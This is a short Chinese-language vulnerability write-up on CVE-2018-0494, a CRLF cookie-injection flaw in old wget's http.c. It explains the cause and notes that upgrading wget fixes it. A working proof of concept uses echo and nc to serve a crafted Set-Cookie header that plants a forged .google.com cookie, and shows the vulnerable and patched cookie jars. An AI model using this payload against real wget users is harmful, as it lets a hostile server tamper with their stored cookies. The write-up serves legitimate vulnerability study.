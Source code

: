 ```yaml
---
title: cve-2018-0494分析
date: 2022-03-09 14:16:09
tags:
- cve
---
```


### cve编号

CVE-2018-0494

### 漏洞编号

NFS-SA-202203-0001

### 漏洞原因

老版本wget的http.c中，set-cookie代码没有对 \n 和 \r做检查，可以被恶意网站将\r\n 写入到cookie jar中，在使用wget进行下载时 随意生成cookie。

### 复现方法

先设置一个小型网络服务

```
wky@wky-virtual-machine:~/poc/fix$ echo -ne 'HTTP/1.1 200 OK\r\nContent-Length: 0\r\nSet-Cookie: foo="bar\r\n\x20.google.com\tTRUE\t/\tFALSE\t1900000000\tinjected\tcookie\r\n\t";expires=Thursday, 01-Jan-2032 08:00:00 GMT\r\n\r\n' | nc -v -l 7777
Listening on [0.0.0.0] (family 0, port 7777)

```

 使用wget获取恶意网址

```
wky@wky-virtual-machine:~$ wget --save-cookies jar.txt http://127.0.0.1:7777/plop
--2022-03-09 15:00:09--  http://127.0.0.1:7777/plop
正在连接 127.0.0.1:7777... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：0
正在保存至: “plop.1”

plop.1                  [ <=>                ]       0  --.-KB/s    in 0s

2022-03-09 15:00:09 (0.00 B/s) - 已保存 “plop” [0/0])
```

有漏洞的wget执行后，获取到的jar.txt内容为

```
wky@wky-virtual-machine:~$ cat jar.txt
# HTTP cookie file.
# Generated by Wget on 2022-03-09 15:01:53.
# Edit at your own risk.

127.0.0.1:7777	FALSE	/	FALSE	1956556800	foo	"bar
 .google.com	TRUE	/	FALSE	1900000000	injected	cookie
	"
wky@wky-virtual-machine:~$
```

修复漏洞之后的结果为

```
wky@wky-virtual-machine:~$ cat jar.txt
# HTTP cookie file.
# Generated by Wget on 2022-03-09 15:00:09.
# Edit at your own risk.

127.0.0.1:7777	FALSE	/	FALSE	1956556800	foo	"bar   .google.com	TRUE	/	FALSE	1900000000	injected	cookie  	"
wky@wky-virtual-machine:~$
```

可以看到修复之后，获取的cookie为一行，而存在漏洞的wget获取的cookie被恶意网址修改成为了两行。

### 修复方法

将wget升级到 wget_1.18-5+deb9u3版本即可。

